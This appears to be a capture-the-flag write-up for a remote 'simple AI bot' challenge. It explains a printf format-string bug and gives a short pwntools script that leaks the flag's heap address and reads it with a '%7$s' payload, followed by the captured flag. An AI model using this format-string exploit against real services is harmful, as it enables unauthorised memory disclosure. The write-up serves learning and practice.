


## Description
With everything and everyone going AI today, we also are developing our own AI bot. It is a first draft and it still requires some work, but feel free to test it out.

> Connection:

> nc simple-ai-bot.ctf.zone 4242

## Solution

This is a remote challenge with no file given. You can send inputs but only a limited length, so no overflow. There is a printf vulnerability that lets us read data from the stack. When we send `flag`, the server gives us the flag’s address on the heap (like `0x60deebdbc040`) in a 64-bit system. We use the printf bug to read the flag from that address.



<b>solved.py<b>

```
from pwn import *

r = remote('simple-ai-bot.ctf.zone', 4242)

r.sendlineafter(b'> ', b'flag')
flag_addr = int(r.recvuntil(b'\n\n').split()[-1], 16)
print(f"[+] Flag address: {hex(flag_addr)}")

payload = b'%7$sTCCC' + p64(flag_addr)
r.sendlineafter(b'> ', payload)
print(r.recvuntil(b'}').decode('utf-8'))
```

<b>Output<b>



### Flag
```
flag{bee82de11dda03908f3f3d41e2795cdf}
```